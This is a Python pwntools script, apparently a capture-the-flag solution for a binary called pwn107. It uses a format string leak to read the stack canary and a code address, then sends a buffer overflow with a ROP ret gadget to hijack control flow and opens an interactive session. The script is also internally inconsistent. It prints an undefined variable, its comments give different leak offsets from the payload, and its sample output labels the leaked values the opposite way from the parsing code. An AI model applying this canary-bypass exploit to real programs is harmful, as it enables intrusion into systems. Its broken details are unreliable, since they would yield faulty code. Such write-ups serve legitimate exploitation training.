 ```python
'''
Exploit starts with format string vulnerability with first entry (Read function). It can read only 20 Bytes.
IT was calculated that canary leaks at 9th position and the function to return to at 17th.
'''
from pwn import *

context.binary = binary = ELF("./pwn107.pwn107",checksec=False)

# This serves just to get the offset from the start of the binary
static_main_address = binary.symbols.main

print("Address of static libc csu init: {}".format(hex(static_libc_csu_address)))
print("Address of static main function: {}".format(hex(static_main_address)))

p = process()
p.recvuntil(b"streak?")

payload = b"%13$lX.%17$lX"
p.sendline(payload)
#print("Payload to leak Canary and Func: {}".format(hex(payload)))
p.recvuntil(b"streak: ")

output = p.recv().split(b"\n")[0]

print("Leaked Addresses (unformated): {}".format(output))

dynamic_main_address = int(output.split(b".")[1].strip(), 16)
canary_address = int(output.split(b".")[0].strip(), 16)

print("Dynamic Libc: {}".format(hex(dynamic_main_address)))
print("Canary: {}".format(hex(canary_address)))

# Output
#Leaked Addresses (unformated): b' 6C70AC6BD4259200.565120E00992'
#Dynamic main: 0x6c70ac6bd4259200
#Canary: 0x565120e00992

'''
In order to get the base address of the binary, we muss subtract static from dynamic address!
'''

dynamic_base_address = dynamic_main_address - static_main_address
binary.address = dynamic_base_address

print("New binary address starts now at: {}".format(hex(dynamic_base_address)))

# From this point on it's all about buffer overflow 
# Remember, we want to get into the get_streak function!
dynamic_get_streak = binary.symbols.get_streak

## Implant the RET Gadget since running it on Ubuntu
rop=ROP(binary)
ret_gadget= rop.find_gadget(['ret'])[0]

payload = b"A"*0x18 + p64(canary_address) + b"B"*8 + p64(ret_gadget) + p64(dynamic_get_streak)
p.sendline(payload)
p.interactive()

```
